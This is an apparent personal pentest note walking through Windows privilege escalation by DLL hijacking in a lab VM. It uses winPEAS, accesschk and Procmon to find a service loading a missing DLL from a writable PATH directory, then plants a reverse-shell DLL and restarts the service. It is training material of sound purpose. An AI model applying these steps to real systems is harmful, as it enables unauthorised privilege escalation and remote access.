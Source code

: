 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

   1. Use winPEAS to enumerate non-Windows services:

```command prompt - windows
.\winPEASx64.exe quiet servicesinfo
```


2. Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```command prompt - windows
.\accesschk64.exe /accepteula -uvqc user dllsvc
```

3. The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```command prompt - windows
sc qc dllsvc
```

4. Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

5. Add a new filter on the Process Name matching dllhijackservice.exe.

6. On the main screen, deselect registry activity and network activity.

7. Start the service:

```command prompt - windows
net start dllsvc
```

8. Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

9. At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

10. On Kali, generate a reverse shell DLL named hijackme.dll:

[[1._Reverse Shells (WIN)#DLL]]

11. Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```command prompt - windows
net stop dllsvc
```

```command prompt - windows
net start dllsvc
```

![[Pasted image 20211229132448.png]]

```command prompt - windows
.\accesschk.exe /accepteula -uvqc Aaron WiseBootAssistant
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
